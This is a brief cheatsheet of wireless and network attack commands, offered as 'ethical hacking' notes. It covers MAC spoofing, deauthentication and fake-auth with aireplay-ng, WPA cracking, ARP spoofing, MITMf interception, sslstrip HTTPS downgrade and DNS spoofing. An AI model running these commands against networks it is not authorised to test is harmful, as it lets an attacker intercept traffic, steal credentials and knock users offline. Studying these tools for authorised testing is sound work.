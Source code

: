 This is a cheatsheet for commands and tools commonly used for ethical hacking.

1) Change Mac      : a) ifconfig ath0 down b) ifconfig ath0 hw ether <new_mac> c) ifconfig ath0 up

2) Sniffing Packets: a) airodump-ng wlan0 or b) airodump-ng --bssid <ap_mac> --channel <channel> --write <out_file> wlan0

3) Deauth          : a)  aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
4) Fake Auth       : a)  aireplay-ng -1 0 -a 00:14:6C:7E:40:80 -h 00:09:5B:EC:EE:F2 ath0

5) Cracking WEP/WPA: Use of aircrack-ng depends on encryption

6) Reconnaissance  : a) netdiscover -r 10.0.2.1/24 b) nmap / zenmap(GUI)

MITM:
7) ARP Spoof       : a) arpspoof -i ath0 -t 10.0.2.9 10.0.2.1 b) arpspoof -i ath0 -t 10.0.2.1 10.0.2.9 c) echo "1" > /proc/sys/net/ipv4/ip_forwarding

8) MITMF           : a) mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.9 -i ath0   --- this command is arp spoof + sniffing

9) HTTPS           : Use sslstrip to downgrade https to http. MITMF commands deploy it.

10) DNS Spoof      : a) Add dns entry to /etc/mitmf/mitmf.conf b) mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.9 -i ath0 --dns 
       
